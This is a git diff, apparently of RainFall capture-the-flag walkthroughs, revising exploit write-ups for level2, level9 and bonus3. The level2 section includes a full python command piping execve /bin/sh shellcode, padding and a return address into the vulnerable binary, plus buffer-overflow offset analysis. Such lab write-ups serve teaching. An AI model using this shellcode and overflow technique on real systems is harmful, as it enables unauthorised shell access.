

[EDIT] smalls changes and fix errors in png and walkthrough (and source) for level{2, 8, 9} and bonus3

diff --git a/level2/walkthrough.md b/level2/walkthrough.md
@@ -44,9 +44,27 @@ level2@RainFall:~$ ./level2
 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaJaaaaaaaa
 Segmentation fault (core dumped)
+level2@RainFall:~$ ./level2 
+aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
+aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaJaaaaaaaaa
+Segmentation fault (core dumped)
+level2@RainFall:~$ ./level2 
+aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
+aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaJaaaaaaaaaa
+Segmentation fault (core dumped)
+level2@RainFall:~$ ./level2 
+aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
+aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaJaaaaaaaaaaa
+Segmentation fault (core dumped)
+level2@RainFall:~$ ./level2 
+aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
+aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
+Segmentation fault (core dumped)
 ```
 
-These tests indicate a **buffer overflow vulnerability** (here triggered with 76 `a` characters), meaning there is **no protection** on the input buffer. And we can observe a **change of value** around the **65th character**.
+These tests indicate a **buffer overflow vulnerability** (here the **first one** triggered with 76 `a` characters), meaning there is **no protection** on the input buffer. And we can observe a **change of value** around the **65th character**.
+
+We can see a **first buffer overflow** with a **padding of 76**, but there are also **more buffer overflows** with **paddings** ranging from size **77 to 80** characters.
 
 ## 2. Analyze The Executable
 
@@ -87,8 +105,6 @@ If the check passes, the program **continues normally**. The input is printed us
 
 ## 3. Exploit Development
 
-### Stack Layout
-
 By analyzing the **assembly dump**, we can observe that `unaff_retaddr` is actually **stored** at offset `-0xc(%ebp)`:
 
 ```s
@@ -107,7 +123,11 @@ Since `unaff_retaddr` is a `4-byte` variable, it overlaps with `4 bytes` of `loc
 
 The `and` **operation** modifies these bytes, which explains the **unexpected characters** observed in the output (e.g. `[...]aaJ����`).
 
+This check is important for later, we will talk about it again.
+
 ---
+
+### Stack Layout
 
 So, the stack layout looks like this :
 
@@ -157,17 +177,58 @@ A **shellcode** is a **sequence of machine instructions** encoded in hexadecimal
 
 This shellcode is 21 bytes long, with this we can **define the structure of the payload** :
 ```
-<shellcode> + <buffer overflow> + <shellcode address>
-   21       +        59         + 			4				   = 84 bytes
-└─────────────┬────────────────┘
-			80 bytes
+<shellcode>	+ <padding> + <shellcode address>
+	21		+		59	+ 		4				   = 84 bytes
+└───────────┬───────────┘
+		80 bytes
 ```
+
+### Padding Size Explain
+
+Even though the **first segfault** appears with a **padding of 76 characters**, the **real offset** to `saved EIP` from `local_50` is **80 bytes**.
+
+```s
+   0x080484e7 <+19>:	lea    -0x4c(%ebp),%eax
+   0x080484ea <+22>:	mov    %eax,(%esp)
+   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
+```
+
+We can observe the `gets()` **argument** is at **`ebp - 0x4c`**, this argument being `local_50`.
+And **`0x4c`** is **`80` bytes** in decimal.  
+
+If there is segfault from 76 to 79, it is because the `saved EPB` is overwritten. Which causes some errors when returning to `main`. 
 
 ---
 
 ### Find the Shellcode Address
 
 The last piece of information required is the **address of the shellcode** in the memory.
+
+---
+
+#### Stack Addresses Protection
+
+```c
+	if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
+		printf("(%p)\n",unaff_retaddr);
+		_exit(1);
+	}
+```
+
+This **`if` statement** check that the **address given** does **not begin** with **`0xb0000000`**. This **prevent** the **shellcode** to be **stored** in the **stack**.
+So we need use the **shellcode stored** in the **heap** with `strdup()` instead.
+
+If we try to used the `local_50` address : `0xbffff70c`, we get this error :
+
+```bash
+level2@RainFall:~$ (python -c "print '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + 'a' * 59 + '\x0c\xf7\xff\xbf'"; cat -) | ./level2 
+(0xbffff70c)
+id
+level2@RainFall:~$
+```
+
+---
+
 We can use the return value of `strdup()`, which duplicates the input (containing our shellcode) to the heap and returns its address.
 
 
@@ -186,6 +247,8 @@ With this `ltrace` output we can get the **return value** of `strdup()`, which i
 ```
 \x08\xa0\x04\x08
 ```
+
+---
 
 ### Overflow Visualization
 

diff --git a/bonus3/walkthrough.md b/bonus3/walkthrough.md
@@ -55,6 +55,7 @@ Most of the **beginning of main** is **misleading** and does not directly impact
 Only the **following lines** are important:
 
 ```c
+    iVar2 = atoi(*(char **)(param_2 + 4));
     local_98[iVar2] = '\0';
     iVar2 = strcmp(local_98,*(char **)(param_2 + 4));
     if (iVar2 == 0) {
@@ -62,8 +63,9 @@ Only the **following lines** are important:
     }
 ```
 
-The program **compares** (using `strcmp`) **`argv[1]`** with a **`local_98`** that is set as **null-terminated**.
-If **`argv[1]`** is **equal** to an **empty string** (`'\0'`), the comparison succeeds and the program spawns a shell using `execl("/bin/sh","sh",0)`.
+The program **compares** (using `strcmp`) **`argv[1]`** with a **`local_98[iVar2]`** that is set as **null-terminated**.
+
+If **`argv[1]`** is **equal** to an **empty string** (`'\0'`), **`iVar2`** is equal to **`0`**, **`local_98`** is considered as **`null`** and the **comparison succeeds** and the program spawns a shell using `execl("/bin/sh","sh",0)`.
 
 ## 3. Exploit Development
 

diff --git a/level9/walkthrough.md b/level9/walkthrough.md
@@ -98,14 +98,15 @@ From the **constructor and the `setAnnotation()` method**, we can deduce a **pse
 ```c++
 class N
 {
-private:
-	char annotation_buffer;	// this + 4			(0x68 - 4 = 0x64 or 100 in decimal)
-	int integer;	// this + 0x68
-public:
-	N(int i);
-	~N();
+	private:
+		char annotation_buffer;	// this + 4			(0x68 - 4 = 0x64 or 100 in decimal)
+		int integer;	// this + 0x68
 
-	void setAnnotation(char s);
+	public:
+		N(int i);
+		~N();
+
+		void setAnnotation(char s);
   
 };
 ```
@@ -190,7 +191,7 @@ Therfore, the payload must be structured as follows:
 					    108 bytes
 ```
 
-Where `<transfer address>` points to the shell code.
+Where `<transfer address>` points to the shellcode.
 
 ![img](Ressources/level9-payload.png)
 
